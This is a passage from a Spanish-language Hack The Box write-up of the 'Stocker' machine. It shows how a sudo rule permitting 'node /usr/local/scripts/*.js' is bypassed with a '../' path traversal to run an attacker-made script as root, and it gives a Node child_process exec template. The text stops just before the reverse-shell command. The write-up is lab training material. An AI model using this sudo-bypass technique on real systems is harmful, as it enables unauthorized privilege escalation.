 ```bash
angoose@stocker:~$ ls -la /usr/local/scripts/
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/stocker/523bash_angooseSH_ls_USRlocalSCRIPTS.png" style="width: 100%;"/>

Existen varios, pero no tenemos acceso de lectura contra ellos, y si los ejecutamos, en algunos el output es nulo o simplemente no nos dice nada importante. El enfoque sería aprovechar algún script de esos o intentar engañar al sistema de alguna manera.

Después de un rato intentando descubrir que se podría hacer, pensé "oiga, pero, ¿ese permiso realmente solo permite ejecutar los scripts que estén dentro de esa ruta?".

Y después de otro raro probando, llegue a una prueba poderosa.

Ese wildcard (el `*`) abre la puerta para que tome cualquier archivo que termine en `.js` como ya dijimos, peeeeeeero, tiene que ser en esa ruta?????? Y si ejecutamos algo tal que:

```bash
sudo /usr/bin/node /usr/local/scripts/../../../../../tmp/test/holacomoestas.js
```

El objeto final tiene el `.js` y empezamos con el path válido, por lo que el permiso se cumple, A JUGAR:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/stocker/523bash_angooseSH_sudo_JSscrips_pathtraversal_holacomoestasJS_tryTOexecuteIT.png" style="width: 100%;"/>

**Ihssss, está intentando ejecutarloooooo**, todo esto mediante un [Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal). Así que listooos, ya tenemos claro que es lo siguiente a hacer...

Busquemos maneras de ejecutar comandos en el sistema con ayuda de ***JavaScript***.

* [How do I execute a command in Javascript?](https://blog.gitnux.com/code/javascript-command/).

Se nos indica que podemos hacerlo apoyados de `node`, así que finos. Con en el módulo [child_process](https://nodejs.org/api/child_process.html) (que se asemeja a `subprocess` en **Python**) podemos pasarle la función `exec` y junto el comando a ejecutar:

```js
const { exec } = require('child_process');

exec('your-command-here', (error, stdout, stderr) => {
  if (error) {
    console.error(`exec error: ${error}`);
    return;
  }
  console.log(`stdout: ${stdout}`);
  console.error(`stderr: ${stderr}`);
});
```

Obtengamos una reverse shell, pero antes creemos un entorno de trabajo (`mkdir /tmp/test`), armemos el archivo `.js` (`touch holacomoestas.js`) y démosle permisos de ejecución (`chmod +x !$` o `chmod +x holacomoestas.js`).

En el objeto `.js` agregamos el comando para la rev sh:
